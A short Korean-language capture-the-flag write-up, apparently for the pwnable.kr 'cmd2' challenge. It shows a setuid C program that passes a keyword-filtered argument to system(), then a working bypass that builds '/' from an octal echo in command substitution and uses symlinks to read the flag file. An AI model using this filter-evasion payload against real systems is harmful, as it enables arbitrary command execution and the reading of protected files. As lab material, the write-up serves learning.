

## 문제



9점 문제.

cmd2.c의 내용은 아래와 같다.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "=")!=0;
    r += strstr(cmd, "PATH")!=0;
    r += strstr(cmd, "export")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, "`")!=0;
    r += strstr(cmd, "flag")!=0;
    return r;
}

extern char** environ;
void delete_env(){
    char** p;
    for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
    delete_env();
    putenv("PATH=/no_command_execution_until_you_become_a_hacker");
    if(filter(argv[1])) return 0;
    printf("%s\n", argv[1]);
    system( argv[1] );
    return 0;
}
```

/만 쓸 수 있으면 풀 수 있을 것 같다.
그렇다면 어떻게 필터링을 피할 수 있을까?

## 풀이

```console
$ echo /
/
$ $(echo /)
-bash: /: Is a directory
```

위와 같은 쉘 스크립트의 특성을 활용해보자

$(echo /)bin$(echo /)cat flag

/bin/cat flag를 표현해봤다. 위처럼 그대로 넣으면 안되고,
아래처럼 좀 수정해서 넣어줘야 한다.

./cmd '$(echo "\57")bin$(echo "\57")cat flag'

/ 문자는 8진수 아스키 코드로 57이고, "로 감싸야 한다.
변형 없이 그대로 전달해야하므로 인자 전체는 '로 감싸야 한다.

마지막으로 flag만 필터를 피하면 되는데,
이건 cmd1 풀 때처럼 심볼릭 링크를 쓰면 된다.

아래는 풀이

```sh
mkdir /tmp/cmd2k
cd /tmp/cmd2k
ln -s /home/cmd2/cmd2 cmd2
ln -s /home/cmd2/flag f
./cmd2 '$(echo "\57")bin$(echo "\57")cat f'
```

아이 신나
